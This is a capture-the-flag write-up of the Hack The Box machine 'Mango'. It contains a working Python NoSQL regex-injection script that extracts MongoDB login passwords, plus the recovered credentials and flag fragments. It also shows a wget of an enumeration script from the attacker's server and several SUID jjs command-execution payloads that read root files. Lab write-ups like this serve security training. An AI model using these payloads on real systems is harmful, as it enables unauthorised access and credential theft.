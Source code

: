 ```yaml
---
layout: post
title: "MANGO - Linux Easy Hack The Box writeup"
date: 2020-04-21 12:00:00 +0000
---
```


Mango - Linux

# Machine Details:

**IP Address :** 10.10.10.162
## Flags:
User: 79bf31c6
Root: 8a8ef79a

## Hints:
Name of the Machine - might be related to MongoDB.
SSL certificates


# Take Away
* Inspect the HTTPs website - certificates
* Make a habit of registering the hostnames locally.
* Look more into the home folder of the user, likely contains some hint

# Recon:
## nmap
scan command: `nmap -p- `
```
scan results
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)      
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))  
443

```

## Web Page found:
Https has some unknown certificate: https://10.10.10.162/

It talks about staging-order.mango.htb, added this as an hostname to /etc/hosts

Voila, there is an webpage (which was previously not present) in the http:// and not https:// webpage.

http://staging-order.mango.htb/

Has a log in screen, might be related to Mongo DB.


# Foothold :
For the login web page, Trying to use: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
the python script gives erroneous results.

The python script from https://book.hacktricks.xyz/pentesting-web/nosql-injection Gave proper output :)

## Script Used:
Notice: I guessed the name admin as the username from the certificate, and mango since the name of the machine is mango. :) - if it fails will enumerate the username as well.
```python
import requests
import string

url = "http://staging-order.mango.htb"
headers = {"Host": "staging-order.mango.htb"}
cookies = {"PHPSESSID": "k90e8p8k65a6b0b1rgbck1tutk"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                print("pass",c)
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames

usernames = ["admin","mango"]
for u in usernames:
    get_password(u)

```

Was able to find the passwords:
```
admin : t9KcS3>!0B#2
mango : h3mXK8RhU~f{]f5H
```

Screen-Shot of the script output.

![f4bc96690381ae8e708dfd9567e1a274.png](../../_resources/75f312370d134f34bd6500062a08d5f5.png)


Logging into the website gave:

![38e6dd193b053e4ddcbe00572afa2b08.png](../../_resources/e593df41839d40feb9c2276e464bc6ef.png)

# User:

SSH into the box with the previous passwords:
admin - fails
mango - works :)

```
su admin
cat /home/admin/user.txt
79bf31c6c6
```

# Priv Esc:

su admin
password is the one found above.


# Root:

Checked a bunch of stuffs did not help corntab looks to be running. Might come back to this latter.

Will try to run the LinuxEnum Script.

```
Attacker Machine:
cd /root/HTB/LOCAL/LinEnum
python -m SimpleHTTPServer 8080

Target Machine:
wget http://10.10.15.72:8080/LinEnum.sh
```
Interesting Findings:
```


[+] Possibly interesting SGID files:
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

[+] Possibly interesting SUID files:                                              
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs      
```

Lets try:
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

This Freezes but we see #

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc ls /root/').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Did not work :(

sh -c 'cp $(which jjs) .; chmod +s ./jjs'
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p cat /root/root.txt').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh id').waitFor()
Java.type('java.lang.Runtime').getRuntime().exec('ls -la /root/').waitFor()
```

looked more into the home folder of the user.

```
ls -la /home/admin
found a file for jjs history; found this code snippet..

var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }

```

Works :)
Owned the Root.
